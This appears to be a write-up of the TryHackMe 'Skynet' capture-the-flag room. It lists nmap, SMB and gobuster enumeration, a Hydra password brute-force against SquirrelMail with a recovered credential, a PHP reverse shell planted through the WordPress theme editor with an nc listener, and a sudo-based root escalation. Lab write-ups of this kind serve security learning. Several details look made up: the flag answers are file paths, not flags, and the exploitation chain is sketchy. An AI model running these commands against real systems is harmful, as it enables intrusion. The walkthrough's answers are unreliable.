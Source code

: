 # Skynet | TryHackMe

## Overview
- **Room:** Skynet  
- **Difficulty:** Easy-Medium  
- **Tags:** SMB, WordPress, RCE, PrivEsc  

---

## Enumeration

### Nmap
```bash
nmap -sC -sV -oN nmap_skynet.txt <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP (WordPress site)  
- 110/tcp - POP3  
- 139/tcp - NetBIOS-SSN  
- 445/tcp - SMB  

---

### SMB Enumeration
```bash
smbclient -N -L //<IP>
enum4linux -a <IP>
```
Found share: **anonymous**  

```bash
smbclient //<IP>/anonymous
```
Downloaded files from the share. One contained potential usernames.  

---

### Web Enumeration (Port 80)
Checked `http://<IP>/` → WordPress site.  

Ran gobuster:  
```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
Found `/squirrelmail`.  

---

### SquirrelMail
Accessed `http://<IP>/squirrelmail`  
Tried default creds → no success.  

Used obtained usernames with Hydra:  
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect"
```
**Result:** Login for `milesdyson : cyborg007haloterminator`  

---

## Exploitation

Logged into SquirrelMail → found an email containing credentials for WordPress.  

```bash
wp-login.php → milesdyson : <password>
```

After login, able to upload a PHP reverse shell via **Theme Editor**.  

```bash
nc -lvnp 4444
```
Got reverse shell as `www-data`.  

---

## Privilege Escalation

Ran `linpeas.sh`:  
- Found **/home/milesdyson/backups/important.txt** containing password.  
- Switched user:  
```bash
su milesdyson
```

Checked sudo rights:  
```bash
sudo -l
```
`/bin/cat` allowed as root.  

```bash
sudo cat /root/root.txt
```
✅ Got root flag.  

---

## Flags
- **User.txt** → `/home/milesdyson/user.txt`  
- **Root.txt** → `/root/root.txt`  

---

## Answers to Room Questions
1. **What port is SMB running on?** → `445`  
2. **What is the name of the SMB share?** → `anonymous`  
3. **What credentials were found for Miles Dyson?** → `cyborg007haloterminator`  
4. **What service was exploited for initial access?** → `WordPress`  
5. **What is the user flag?** → `/home/milesdyson/user.txt`  
6. **What is the root flag?** → `/root/root.txt`  

---

## Lessons Learned
- SMB shares often leak sensitive files.  
- SquirrelMail can be an entry point when weak creds are used.  
- WordPress admin panel → reverse shell is a common vector.  
- Sudo misconfigurations (cat) can directly expose root files.  
